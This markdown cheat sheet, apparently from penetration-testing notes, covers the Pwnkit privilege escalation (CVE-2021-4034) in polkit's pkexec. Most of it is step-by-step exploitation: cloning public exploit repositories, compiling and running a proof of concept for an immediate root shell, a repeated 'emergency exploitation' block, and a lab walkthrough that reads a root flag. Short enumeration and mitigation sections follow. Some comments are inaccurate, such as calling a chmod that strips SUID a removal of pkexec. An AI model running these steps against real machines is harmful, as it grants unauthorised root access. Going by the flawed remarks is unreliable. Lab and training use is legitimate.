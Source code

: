# 🔐 Polkit/Pwnkit (CVE-2021-4034)

## 🎯 Overview

Polkit (PolicyKit) authorization service vulnerability CVE-2021-4034 "Pwnkit" allows local privilege escalation through pkexec memory corruption, affecting most Linux distributions.

## 🚨 CVE-2021-4034 (Pwnkit)

### Vulnerability Details
- **Impact**: Memory corruption in pkexec → immediate root shell
- **Affected**: Most Linux distributions with polkit
- **Hidden**: Over 10 years undetected (published Nov 2021)
- **Requirement**: None - any local user can exploit

### Version Check
```bash
# Check pkexec availability
which pkexec
pkexec --version

# Check polkit version
apt list --installed | grep polkit
rpm -qa | grep polkit
```

## 🚀 Exploitation

### Download and Compile Pwnkit
```bash
# Download exploit
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034

# Compile exploit
gcc cve-2021-4034-poc.c -o poc

# Execute for immediate root
./poc
# Result: root shell
```

### Alternative Exploits
```bash
# Other Pwnkit implementations
git clone https://github.com/berdav/CVE-2021-4034.git
git clone https://github.com/joeammond/CVE-2021-4034-PoC.git
git clone https://github.com/Almorabea/Polkit-exploit.git
```

## 🔧 Manual Exploitation

### Understanding the Vulnerability
```bash
# Normal pkexec usage
pkexec -u root id
# uid=0(root) gid=0(root) groups=0(root)

# Vulnerability in argument processing
# Memory corruption when pkexec processes argv[0]
```

### DIY Exploit (Advanced)
```bash
# Basic exploitation concept
# 1. Exploit argv[0] handling in pkexec
# 2. Trigger memory corruption
# 3. Control execution flow
# 4. Execute arbitrary code as root
```

## 🔍 Detection & Enumeration

### Polkit Vulnerability Check
```bash
#!/bin/bash
echo "=== POLKIT/PWNKIT VULNERABILITY CHECK ==="

echo "[+] pkexec availability:"
which pkexec 2>/dev/null && echo "pkexec found - potential CVE-2021-4034"

echo "[+] Polkit version:"
apt list --installed 2>/dev/null | grep polkit
rpm -qa 2>/dev/null | grep polkit

echo "[+] pkexec version:"
pkexec --version 2>/dev/null

echo "[+] Quick vulnerability test:"
if which pkexec >/dev/null 2>&1; then
    echo "[!] LIKELY VULNERABLE - pkexec present"
    echo "Download: https://github.com/arthepsy/CVE-2021-4034.git"
fi
```

### System Information
```bash
# Check Linux distribution
cat /etc/os-release
cat /etc/lsb-release

# Check polkit service
systemctl status polkit
ps aux | grep polkit
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Check for pkexec
which pkexec

# Test basic functionality
pkexec -u root id  # If works, likely vulnerable to CVE-2021-4034
```

### Emergency Exploitation
```bash
# Quick Pwnkit exploitation
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
./poc  # Immediate root shell
```

### HTB Academy Example
```bash
# 1. Connect to target
ssh htb-student@target

# 2. Check for pkexec
which pkexec

# 3. Download and compile Pwnkit
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc

# 4. Execute for root
./poc
# Get root shell

# 5. Read flag
cat /root/flag.txt
```

## ⚠️ Exploit Characteristics

### Pwnkit Advantages
- **Universal impact** - Works on most Linux distributions
- **No prerequisites** - Any local user can exploit
- **Reliable exploitation** - High success rate
- **Silent execution** - Minimal system logs

### Limitations
- **Compilation required** - Need gcc on target or transfer binary
- **Patched systems** - Fixed in updated polkit versions
- **Detection possible** - Modern EDR may detect exploitation

## 🛡️ Defensive Measures

### Patch Status Check
```bash
# Check if polkit is updated
apt list --upgradable | grep polkit
dnf check-update polkit

# Verify patch level
pkexec --version | grep -E "(0\.105|0\.117|0\.118|0\.119|0\.120)"  # Vulnerable
```

### Mitigation Options
```bash
# Remove pkexec if not needed
sudo chmod 0755 /usr/bin/pkexec  # Remove SUID

# Monitor pkexec usage
auditctl -w /usr/bin/pkexec -p x -k pwnkit_usage
```

---

*Pwnkit (CVE-2021-4034) represents one of the most significant Linux privilege escalation vulnerabilities - any local user can exploit polkit's pkexec for immediate root access on unpatched systems.* 